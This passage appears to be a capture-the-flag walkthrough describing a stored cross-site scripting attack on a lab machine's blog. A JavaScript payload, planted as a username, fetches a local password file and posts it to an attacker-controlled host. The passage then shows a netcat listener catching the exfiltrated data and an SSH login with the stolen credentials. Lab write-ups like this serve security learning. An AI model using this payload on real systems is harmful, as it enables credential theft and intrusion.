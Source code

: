 ## Exploitation

We now know that we need to exfiltrate /dir/pass.txt using javascript.
After a bit of researching we learn how to post data using javascript.
So the malicious javascript for retrieving pass.txt is:
```js
<script>fetch("http://127.0.0.1/dir/pass.txt").then(x => x.text()).then(y => fetch("http://<ATTACKER_IP>:<ATTACKER_PORT>", {method: "POST", body:y}));</script>
```
Note: The above is just a variation of many different data exfil payloads.

We make a account with the exploit code as username and some weak password like pass123.
Then we visit blog.php and comment and wait for a minute while listening on the port we entered in the javascript code. 

This javascript code will not be executed on our browser as it is a Cross-Origin Request(webpage trying to access your localhost) and it will be blocked.
But when the admin visits this page the javascript code will execute(since admin is at localhost) and admin can access pass.txt too.

We start a listner at the port we specified in the malicious javascript:
```
kali@kali:~$ nc -lnvp 8888
listening on [any] 8888 ...
```
And in a minute we get a post request with the contents of pass.txt on our listner.
```
kali@kali:~$ nc -lnvp 8888                                 
listening on [any] 8888 ...
connect to [10.133.71.33] from (UNKNOWN) [MACHINE_IP] 47576
POST / HTTP/1.1
Host: 10.133.71.33:8888
Connection: keep-alive
Content-Length: 32
Origin: http://127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/71.0.3542.0 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Referer: http://127.0.0.1/index.php
Accept-Encoding: gzip, deflate

<REDACTED>
```

Note: If we use `http://<MACHINE_IP>/dir/pass.txt` in place of `http://127.0.0.1/dir/pass.txt` in malicious javascript we don't get any callback on our listner.

This is because only 127.0.0.1 can access it, nothing apart it can. For brief explanation see the last section of the walkthrough.

Now we have a username and password so we can login to the machine using SSH.
```
kali@kali:~$ ssh jack@<MACHINE_IP>
jack@<MACHINE_IP>'s password:
jack@ubuntu:~$ id
uid=1001(jack) gid=1001(jack) groups=1001(jack)
jack@ubuntu:~$ 
```

